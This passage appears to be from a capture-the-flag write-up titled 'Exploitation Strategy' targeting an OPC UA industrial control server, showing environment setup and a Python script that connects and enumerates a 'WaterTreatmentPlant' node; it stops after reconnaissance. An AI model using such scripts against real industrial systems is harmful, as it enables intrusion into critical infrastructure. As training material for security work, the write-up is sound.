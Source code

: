 ## Exploitation Strategy

### Step 1: Environment Setup

Create a Python environment with required dependencies:

```bash
# Create virtual environment
python3 -m venv opcua_env
source opcua_env/bin/activate  # Linux/Mac
# opcua_env\Scripts\activate   # Windows

# Install OPC UA library
pip install asyncua
```

### Step 2: Initial Server Reconnaissance

Explore the OPC UA server structure:

```python
#!/usr/bin/env python3
import asyncio
from asyncua import Client

async def explore_server():
    url = "opc.tcp://94.237.123.14:50504"
    
    client = Client(url=url)
    await client.connect()
    print("Connected to OPC UA server!")
    
    # Get the Objects node (where most data resides)
    objects = client.get_objects_node()
    children = await objects.get_children()
    
    for child in children:
        name = await child.read_browse_name()
        display_name = await child.read_display_name()
        print(f"Found: {name.Name} ({display_name.Text})")
    
    await client.disconnect()

# Run the exploration
asyncio.run(explore_server())
```

**Discovery Results:**
```
Connected to OPC UA server!
Found: Server (Server)
Found: WaterTreatmentPlant (WaterTreatmentPlant)
```
